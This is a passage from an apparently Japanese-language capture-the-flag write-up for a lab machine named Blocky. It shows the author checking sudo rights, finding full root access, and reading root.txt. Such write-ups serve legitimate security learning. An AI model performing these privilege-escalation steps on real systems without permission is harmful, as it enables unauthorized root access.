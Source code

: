 お。ログインできました
これで user.txt を取れます

#とりま sudo -l

とりあえず `sudo -l` してみます

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
ん？？
もしかして。。

```
notch@Blocky:~$ cd /
notch@Blocky:/$ ls
bin  boot  dev  etc  home  initrd.img  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  snap  srv  sys  tmp  usr  var  vmlinuz
notch@Blocky:/$ cd root
-bash: cd: root: Permission denied
notch@Blocky:/$ sudo ls root
root.txt
notch@Blocky:/$ sudo cat root/root.txt
```
root.txt までそのまま取れてしまいました。

#終わりに
easy の中でも難易度の低そうなものだったので、僕でも解けるくらいには簡単でした。
精進します。

